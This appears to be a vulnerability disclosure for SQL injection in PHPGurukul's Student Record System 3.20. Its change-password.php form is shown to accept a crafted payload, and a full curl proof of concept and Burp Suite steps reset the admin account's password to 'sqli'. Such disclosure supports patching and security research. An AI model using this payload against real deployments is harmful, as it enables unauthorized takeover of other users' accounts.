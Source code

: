 # SQL Injection in Student Record System Using PHP and MySQL v3.20

- Vendor : PHPGurukul
- Product : Student Record System Using PHP and MySQL
- Version : 3.20
- Official Website: https://phpgurukul.com/student-record-system-php/

- Related Code file: change-password.php
- Injection parameter: currentpassword, newpassword

## Vulnerability Description
This SQL injection vulnerability occurs in Student Record System Using PHP and MySQL version 3.20.
The vulnerability affects the source code of the /change-password.php file.
If an authenticated user injects a malicious SQL query into the currentpassword, newpassword parameters, they can change another user's password Unauthorized.

#### Impact Assessment 
This vulnerability allows an authenticated attacker to manipulate SQL queries during the password change process, potentially leading to:
- Unauthorized password changes for other user accounts

- Affected Endpoint : http://127.0.0.1:8888/change-password.php
- PoC
    ```
    curl -i -s -k -X POST \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -b "PHPSESSID=lg6rlbg3j0f1iaqfdvdvs9c4i3" \
    -d "currentpassword=' or id='1' -- -&newpassword=sqli' where id='1' -- -&confirmpassword=test&submit=Change" \
    "http://127.0.0.1:8888/change-password.php"
    ```

1. The account information for the current system looks like this:
   ![1-pentest-20250829-0116](https://github.com/user-attachments/assets/8caf9f4f-cd0a-4bfc-86a9-4340c6f8a74f)

2. Login:
    ![1-pentest-20250829-0110](https://github.com/user-attachments/assets/46251dff-51ba-4fd7-a0ec-b51fecefb3a5)
    ![2-pentest-20250829-0110](https://github.com/user-attachments/assets/e796008d-d0f0-4781-b65e-b098f0fa9da2)

3. Users can try to change the password:
    ![1-pentest-20250829-0112](https://github.com/user-attachments/assets/b8a69872-7c26-4a6f-b7e6-a913a8f4a312)


4. Intercept the traffic with burp suite and inject the SQL injection payload:
   `Payload: ' or id='1' -- -&newpassword=sqli' where id='1' -- -`
   ![2-pentest-20250829-0112](https://github.com/user-attachments/assets/e99e3fae-7c43-4e1f-bc34-b0732b4d1329)
   ![1-pentest-20250829-0120](https://github.com/user-attachments/assets/b37ca5e7-97ab-428e-83ef-43507c020d8d)


5. The password for the admin account was changed to the string 'sqli'.
   ![cve8888 localhost studentrecorddb tbl_login phpMyAdmin 5 2 1 2025-08-29 at 12 28 43 AM](https://github.com/user-attachments/assets/366c66a1-2fd2-42dc-8d65-9b071c7f50ef)

